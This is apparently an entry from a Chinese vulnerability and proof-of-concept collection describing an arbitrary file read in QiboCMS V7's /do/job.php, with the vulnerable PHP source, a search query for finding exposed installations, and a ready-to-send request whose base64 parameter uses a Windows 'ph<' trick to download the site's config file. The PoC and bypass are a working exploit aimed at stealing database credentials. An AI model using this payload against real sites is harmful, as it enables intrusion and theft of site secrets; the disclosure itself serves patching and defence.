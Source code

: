 # 齐博CMS V7 job.php 任意文件读取漏洞

## 漏洞描述

QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。

## 漏洞影响

```
齐博CMS V7
```

## 网络测绘

```
app="齐博软件-v7"
```

## 漏洞复现

漏洞分析 `/inc/job/download.php`

```
$url=trim(base64_decode($url));
    $fileurl=str_replace($webdb[www_url],"",$url);
    if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }

    if(!$webdb[DownLoad_readfile]){
        $fileurl=strstr($url,"://")?$url:tempdir($fileurl);
        header("location:$fileurl");
        exit;
    }


    $webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
    if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
        $filename=basename($fileurl);
        $filetype=substr(strrchr($filename,'.'),1);
        $_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);

        if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
            $filename=urldecode(base64_decode($_filename)).".$filetype";
        }
        ob_end_clean();
        header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
        header('Pragma: no-cache');
        header('Content-Encoding: none');
        header('Content-Disposition: attachment; filename='.$filename);
        header('Content-type: '.$filetype);
        header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
        readfile(ROOT_PATH."$fileurl");
        exit;
    }
```

url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。

```
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
        die("ERR");
    }
```

## 漏洞POC

```
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
```

![image-20220518160941881](images/202205181609962.png)